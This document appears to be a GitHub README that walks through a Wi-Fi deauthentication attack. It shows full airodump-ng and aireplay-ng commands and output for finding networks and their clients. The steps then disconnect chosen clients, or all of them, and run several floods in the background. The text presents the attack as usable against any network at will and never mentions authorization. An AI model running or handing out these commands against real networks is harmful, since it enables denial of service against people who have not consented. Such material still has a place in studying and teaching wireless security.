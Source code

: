# Deauth-Attack

Every information security enthusiast probably  know this basic  deauthentication attack, and if you don't  know no need to worry this writeup will give a indepth knowledge about deauthentication attack.

---

##### WHAT IS DEAUTHENTICATION ATTACK ?

- It disconnects any client from your network
- No need to connect to that network
- No need to know its key
- Works against all wifi networks
  - WEP
  - WPA
  - WPA2

**This is done by the tool <mark> aireplay -ng </mark>**

> We are illustrating this attack in **wlan0** interface

The classic command to know about all networks near you is

STEP 1:

```bash
root@kali:~# airodump-ng wlan0

```

So you using the above command target  any desired network by specifying is's *channel(ch)* and *bssid*  to know all the clients connected to that specific network.

STEP: 2

```bash
root@kali:~# airodump-ng --channel 1  -- bssid  56:13:58:76:5B:55 wlan0

```
You will get something like This

```bash
CH  1 ][ Elapsed: 30 s ][ 2020-05-05 16:35                                

BSSID              PWR RXQ  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID

56:13:58:76:5B:55  -34 100      213       64    0   1  360  WPA2 CCMP   PSK  OnePlus 7T           

BSSID              STATION            PWR   Rate    Lost    Frames  Probe                         

56:13:58:76:5B:55  38:F9:D3:8A:D4:87  -30    1e-24      0       36                                 
56:13:58:76:5B:55  20:82:C0:7F:77:9B  -32    0e- 6      0       71                                 
56:13:58:76:5B:55  08:00:27:E6:E5:59  -33    54-1       0       50
root@kali:~#

```
Now you can deauthenticate any client as your wish by the below command


```bash
root@kali:~# aireplay-ng --deauth 10000 -a (MAC ADDRESS OF TARGET ACCESS POINT) -c (MAC ADDRESS OF MACINE TO DISCONNET) wlan0

```

MAC ADDRESS OF TARGET ACCESS POINT: BSSID
MAC ADDRESS OF MACINE TO DISCONNET: STATION
10000: packets using to deauthenticate

STEP 3: (IN ANOTHER TAB)
![](img/de/n3.png)


This will do your job but once you do this your bash screen will overflow and stuck by packets message and you can't write and more commands in bash.

**But what if you want to deauthenticate multiple clients ?**  

So here we have the solution to our above problem:

**Run aireplay-ng .... multiple times to deauthenticate multiple clients**

TIPS:
- Use  **&** at the end of the command to run it in the
- Use  **&>/dev/null** to redirect output to null

```bash
root@kali:~# aireplay-ng --deauth 10000 -a 56:13:58:76:5B:55 -c 08:00:27:E6:E5:59 wlan0 &> /dev/null &

```
Hit Enter


```bash
root@kali:~# aireplay-ng --deauth 10000 -a 56:13:58:76:5B:55 -c 08:00:27:E6:E5:59 wlan0 &> /dev/null &
[1] 14766
root@kali:~#

```
You will get an job id and bash will allow you to run any command and job will be running in background.

```bash
root@kali:~# aireplay-ng --deauth 10000 -a 56:13:58:76:5B:55 -c 08:00:27:E6:E5:59 wlan0 &> /dev/null &
[1] 14766
root@kali:~# aireplay-ng --deauth 10000 -a 56:13:58:76:5B:55 -c 20:82:C0:7F:77:9B wlan0 &> /dev/null
[2] 14785
root@kali:~#

```

- You can use **jobs** to see commands running in the background and **kill** to stop a specific job

```bash
root@kali:~# aireplay-ng --deauth 10000 -a 56:13:58:76:5B:55 -c 08:00:27:E6:E5:59 wlan0 &> /dev/null &
[1] 14766
root@kali:~# aireplay-ng --deauth 10000 -a 56:13:58:76:5B:55 -c 20:82:C0:7F:77:9B wlan0 &> /dev/null &
[2] 14785
root@kali:~#jobs
[1]- Running             aireplay-ng --deauth 10000 -a 56:13:58:76:5B:55 -c 08:00:27:E6:E5:59 wlan0 &> /dev/null &
[2]+ Running             aireplay-ng --deauth 10000 -a 56:13:58:76:5B:55 -c 20:82:C0:7F:77:9B wlan0 &> /dev/null &

```

Here you go smoothly in deauthenticating multiple clients . **But what if you want to disconnect all the devices**

To **disconnect** all clients connected to specific network

- Run the same **aireplay-ng** command
- Set the **BSSID** of target of NETWORK
- Omit the -c arguments (the client argument)


```bash
root@kali:~# aireplay-ng --deauth 10000 -a 56:13:58:76:5B:55 wlan0

```
Hit enter and you will successfully disconnect all the clients from that specific network.
>But if you get some **error** than follow the below commands to avoid error:

STEP1:

```bash
root@kali:~# airodump-ng wlan0

```
It will list all networks select the bssid and channel to deauthenticate all clients.


STEP 2:
```bash
root@kali:~# airodump-ng  --bssid 56:13:58:76:5B:55  --channel 1  wlan0

```

STEP3: (Run this in another TAB)

```bash
root@kali:~# aireplay-ng --deauth 10000 -a 56:13:58:76:5B:55 wlan0

```
